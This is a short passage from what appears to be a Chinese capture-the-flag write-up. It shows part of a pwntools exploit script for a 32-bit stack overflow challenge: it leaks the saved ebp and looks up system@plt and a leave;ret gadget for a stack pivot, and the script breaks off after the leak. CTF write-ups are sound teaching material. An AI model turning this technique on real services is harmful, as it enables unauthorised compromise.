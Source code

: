 <img src="/upload/img/image-20220411123417163.png" alt="image-20220411123417163" style="zoom:50%;" />

最后的exp如下：
```python

from pwn import *

\#p=remote('node4.buuoj.cn',25986)

p=process('./a')

context(arch='i386',os='linux',log_level='debug')

payload1=0x20*'a'+0x8*'b'

e=ELF('./a')

level_ret_addr=0x08048562

sys_addr=e.plt['system']

p.recvuntil("Welcome, my friend. What's your name?\n")

p.send(payload1)#第一次仅仅就是为了泄露main函数的ebp

p.recvuntil('bbbbbbbb')

ebp=u32(p.recv(4))
```